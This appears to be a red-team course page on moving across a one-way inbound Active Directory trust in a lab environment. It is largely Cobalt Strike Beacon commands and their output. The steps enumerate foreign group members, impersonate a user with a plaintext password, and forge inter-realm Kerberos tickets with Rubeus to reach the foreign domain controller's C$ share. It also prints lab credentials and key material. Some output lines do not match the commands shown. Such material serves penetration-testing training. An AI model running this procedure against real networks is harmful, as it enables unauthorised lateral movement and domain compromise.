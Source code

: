 # One way (inbound)

**dev.cyberbotic.io** has a one-way inbound trust with **subsidiary.external**.

```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : subsidiary.external
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM
```

Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain. We can enumerate the foreign domain across the trust.

```
beacon> powershell Get-DomainComputer -Domain subsidiary.external -Properties DNSHostName

dnshostname           
-----------           
ad.subsidiary.external
```

`SharpHound -c DcOnly -d subsidiary.external` will also work.

`Get-DomainForeignGroupMember` will enumerate any groups that contain users outside of its domain and return its members.

```
beacon> powershell Get-DomainForeignGroupMember -Domain subsidiary.external

GroupDomain             : subsidiary.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=subsidiary,DC=external
MemberDomain            : subsidiary.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=subsidiary,
                          DC=external
```

This output shows that there's a member of the domain's built-in Administrators group who is not part of subsidiary.external. The **MemberName** field contains a SID that can be resolved in our current domain.

```
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\Subsidiary Admins
```

If this is confusing, this is how it looks from the perspective of the subsidiary.external's domain controller.

![.gitbook/assets/1663788103.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788102/tr82bi9sxx1ek0criyk3.png)

`Get-NetLocalGroupMember` can enumerate the local group membership of a machine. This shows that `DEV\Subsidiary Admins` is a member of the local Administrators group on the domain controller.

```
beacon> powershell Get-NetLocalGroupMember -ComputerName ad.subsidiary.external

ComputerName : ad.subsidiary.external
GroupName    : Administrators
MemberName   : DEV\Subsidiary Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True
```

This is a slightly contrived example - you may also enumerate where foreign groups and/or users have been assigned local admin access via Restricted Group by enumerating the GPOs in the foreign domain.

To hop the trust, we need to impersonate a member of this domain group. If you can get clear text credentials, `make_token` is the most straight forward method.

```
beacon> powershell Get-DomainGroupMember -Identity "Subsidiary Admins" | select MemberName

MemberName
----------
jadams

beacon> make_token DEV\jadams TrustNo1
[+] Impersonated DEV\bfarmer

beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/11/2021 18:00:26   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     02/17/2021 18:50:04   Users
          dir     02/19/2021 22:34:47   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 384mb    fil     03/16/2021 10:48:25   pagefile.sys
```

If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.

First, we need a TGT for the principal in question. This TGT will come from the current domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jadams /domain:dev.cyberbotic.io /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

[*] Action: Ask TGT
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256-cts-hmac_sha1 hash: 70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jadams'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MuSU8=

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:00:28 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  3/23/2021 1:00:28 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  mnuk66R9/j0cnmZczy8ACxBfn5VcZ5pFubm3tI79KZ4=
```

Next, request a referral ticket from the current domain, for the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:krbtgt/subsidiary.external /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFdD[...snip...]MuSU8= /nowrap

[*] Action: Ask TGS
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/subsidiary.external'
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFMT [...snip...] 5BTA==

  ServiceName           :  krbtgt/SUBSIDIARY.EXTERNAL
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:02:06 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwardable
  KeyType               :  rc4-hmac
  Base64(key)           :  O7B/KR3+DvhlpY6qwrTlHg==
```

Notice how this inter-realm ticket is of type `rc4_hmac` even though our TGT was `aes256_cts_hmac_sha1`. This is the default configuration unless AES has been specifically configured on the trust, so this is not necessary "bad OPSEC".

Finally, use this inter-realm TGT to request a TGS in the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:cifs/ad.subsidiary.external /domain:ad.subsidiary.external /dc:ad.subsidiary.external /ticket:doIFMT[...snip...]5BTA== /nowrap

[*] Action: Ask TGS
[*] Using domain controller: ad.subsidiary.external (10.10.14.55)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/ad.subsidiary.external'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFsD [...snip...] JuYWw=

  ServiceName           :  cifs/ad.subsidiary.external
  ServiceRealm          :  SUBSIDIARY.EXTERNAL
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:08:52 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  HPmz324aewyZ6El4LGoVEksQEvkI3eoSiy7gAlgEXbU=
```

Write this base64 encoded ticket to a file on your machine.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("doIFiD [...snip...] 5hbA=="))
```

Create a sacrificial logon session and import the ticket.

```
beacon> make_token DEV\jadams FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Daniel\Desktop\subsidiary.kirbi
beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 10:03:50   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 12:15:11   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     05/16/2021 11:58:30   Users
          dir     05/16/2021 11:31:57   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     05/25/2021 08:39:47   pagefile.sys

 beacon> rev2self
```

Foreign Principals can also have DACL abuse primitives, where `DEV\Subsidiary Admins` could have abusable DACLs on principals within the `subsidiary.external` domain.
